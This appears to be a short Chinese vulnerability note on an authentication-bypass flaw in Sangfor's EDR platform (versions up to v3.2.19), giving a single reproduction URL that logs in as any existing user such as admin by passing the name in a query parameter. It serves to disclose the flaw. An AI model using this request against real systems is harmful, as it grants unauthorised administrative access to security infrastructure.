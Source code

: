 # 深信服后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 影响版本

> [!NOTE]
>
> EDR <= v3.2.19

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

> [!NOTE]
>
> 注意最后的admin需要为存在的用户名

![](./image/sxf-2.png)